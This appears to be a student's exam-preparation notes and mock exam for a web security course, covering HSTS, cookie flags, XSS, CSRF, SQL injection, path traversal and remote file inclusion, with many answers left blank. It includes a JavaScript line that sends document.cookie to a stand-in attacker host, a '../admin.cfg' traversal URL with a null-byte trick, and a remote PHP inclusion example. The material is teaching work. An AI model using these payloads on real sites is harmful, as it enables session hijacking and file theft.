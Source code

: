 # Exam Preparation


## Exam Topics


### HSTS

HSTS stands for **HTTP Strict Transport Security** and tells the browser to only use HTTPS when communicating with the server and not relying on an insecure HTTP connection.  HSTS is a web security policy mechanism which helps to protect websites against **protocol downgrade attacks** and **cookie hijacking**.  HSTS allows a web server to force a client to subsequently communicate only over a secure channel. When the browser performs a request to a HSTS host, its behaviour is modified so every HTTP reference is upgraded to the HTTPS protocol before being accessed; TLS errors (e.g., self-signed certificates) terminate the communication session and the embedding of mixed content is forbidden. The HSTS policy is communicated by the server to the user agent via an HTTP response header field named "Strict-Transport-Security". HSTS policy specifies a period of time which the user agent should only access the server in a secure fashion. Facebook introduced this policy to their website in 2013: https://www.facebook.com/notes/facebook-engineering/secure-browsing-by-default/10151590414803920/ Before that time an attacker was able to intercept a request and serve a different page, including a fake login one (assumed he was trying to visit a subdomain of facebook (https://null-byte.wonderhowto.com/how-to/bypass-facebooks-hsts-0169414/)). Below you can find a https response from facebook when you're logged in.

* ![FacebookHSTS](img/facebook_hsts.PNG)


### Cookies: Secure and HttpOnly Flags: 

* Secure cookies are only ever sent over encrypted HTTPS connections. Encrypting the cookie itself, when it is sent over HTTP is pointless. Attackers can smiply replay a stolen encrypted cookie. **Protects against eavesdropping**.
* HttpOnly cookies can only be accessed over HTTP(S) and are not available to any other APIs. Therefore, they are inaccessible to scripts. **Protects against client-side scripts**
* HttpOnly Flag can be used to prevent XSS attacks for stealing cookies. Even if the HttpOnly Flag is set, it is still possible to steal a cookie from the user without breaking the TLS tunnel. Simply by letting the user request the attacker's website mafia.org and redirect him to the original page. Then the attacker can steal the cookie from the unencrypted http request.




## Mock Exam (english version)


1. Why is it a better idea to use rather a POST than a GET request when some paramters are confidential, although it is possible for an attacker who eavesdrops the network traffic to inspect the data in both cases?

	* It is true that POST and GET requests do not provide protection against eavesdropping out-of-the-box. There is no special encoding which would ensure protection. An attacker can read the sensitive data from the query string or from the body part of the HTTP request. The only difference between GET and POST requests is their purpose and behaviour. GET requests should only be used to request a ressource or retrieve data. GET should be used for idempotent operations, i.e. operations without side effects on the server. The drawback of a GET request is their visibile query string in the URL. A GET request should not be used for sensitive data because a GET request can be cached, bookmarked, has a maximum length and ends up in browser history. POST should be used to submit a request and has its parameters in its body. POST requests are never cached, cannot be bookmarked and do not end up in browser history. It also has no restrictions on length which emphasizes its purpose on submitting and not retrieving data.

2. How does HSTS work? Also try to explain what attacks HSTS tries to prevent and how.

	* HSTS stands for HTTP Strict Transport Security and can be useful to prevent MitM-attacks which are using SSL stripping. In contrast to a simple redirect by the server which indicates to the browser that it should use the https variant of the website instead of the http version, HSTS means that HTTP requests by the user will be turned into HTTPS requests. HSTS works on the very first visit of a website and is not using redirects. Therefore the first HTTP request never happens.


3. What is the difference between a normal and a blind SQL injection?

	* Blind SQL injection: a SQL injection where not the response itself is interesting, but the type of the response, or lack of response, leaks information to an attacker


4. Is CSRF abusing the trust of a website in the user or the trust of the client/user in the website? Elaborate your answer.

	* XSS exploits the trust a user has for a particular site. CSRF exploits the trust that a site has in a user's browser.


5. XSS attacks also use CSRF from time to time.	Draft an example of a XSS attack where CSRF is not used en an example of a XSS attack where CSRF is used as well.

	* XSS: Attacker injects a script into a website which executes which the victim's access rights in the victim's browser. Stealing victim's cookie with window.open("http://magia.org/steal.php?cookie=" + document.cookie); XSS attacks: reflected/non-persistent, stored/persistent, dom-based. XSS is a special form of HTML injection. Same-Origin-Policy restricts some interactions but does not really prevent this (prevents scripts access in iframes). XSP(Content security Policy) in HTML5 which uses whitelists of scripts could help.


6. 


	* ```
		<html><body>
		<iframe src="http://xx.com/x.html"> </iframe>
		<input type="button" value="Roep f aan op iframe above"
			onclick="frames[0].f();">
		</body></html>

	* a) Under which requirements is the invocation	of f allowed and when is it not allowed?

		* Answer

	* b) What is the motivation for such requirements/conditions based on a security perspective? With other words, which kinds of attacks are these requirements trying to prevent?

		* Answer



7. What is the difference between a "secure" cookie and an "HttpOnly" cookie?

	* Answer



8.  * a) What is a path traversal a.k.a file name injection attack?

		* A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).
		This attack is also known as “dot-dot-slash”, “directory traversal”, “directory climbing” and “backtracking”. It is also possible to use path traversal attack to execute a DoS attack by opening special files like "/var/spool/printer" which are not meant to be opened for reading, only for writing. Obviours places to look out for are URLs which include a file name as parameter: "http:/somesite.com/get-files.php?file=../admin.cfg". Trick to end the concatenation of a string for this area: using the NULL character "%00"

	* b) Name at least 10 counter measures against this kind of attacks and also explain how it works. 

		* Answer


9. SSL stripping makes it possible for an attacker to break up an HTTPS tunnel between the browser and the server and exchanging (i) a HTTP connection between the browser and himself and a HTTPS connection btween himself and the server or (ii) a HTTPS connection between the browser and himself and a HTTPS connection between himself and the server. What are advantages and disadvantages of the first case in contrast to the second case based on the perspective of the attacker?

	* Answer



10. How does a Remote File Inclusion attack work against a PHP web application?

	* Remote File Inclusion (RFI) allows an attacker to run arbitrary code on a server. For example including "http://mafia.com/function.php" as an option to some input on a website. If that does not work and the server disallows remote file inclusion then the attacker can still tryo Local File Inclusion (LFI) which executes scripts located on the server. The attacker could upload his own PHP code hidden as a profile picture and then point to his picture. The Null character trick can be helpful if the name of the script is hardcoded and should be excluded from the concatenation.


11. Assume someone has no Facebook-account. Is it possible that there is still a privacy risk where information is leaking towards Facebook?
	Elaborate your answer. Explain why there is a risk or why there is no risk. If there is a risk, explain what kind if information could leak and what the user could do against it.

	* Answer


12. This question is about the WebGoat assignment to spoof an authentication cookie.

	* ![AuthenticationCookie](img/12.PNG)	
	* When you login on this website with the username "webgoat" and password "webgoat", the server sets a session cookie with the value "AuthCookie=65432ubphcfx". When you logout and then login again with the username "aspect" and password "aspect", then the value of the cookie gets set to "AuthCookie=65432udfqtb".
	How can you login as user "bob" without actually knowing his password? Which tools are required to execute this attack and how does it work?

		* Answer	


13. Two of the assignments on websecurity.cs.ru.nl had the goal to steal a cookie. Explain briefly the steps which are required for this attack and which kind of infrastructure the attacker needs.
	
	* Answer		
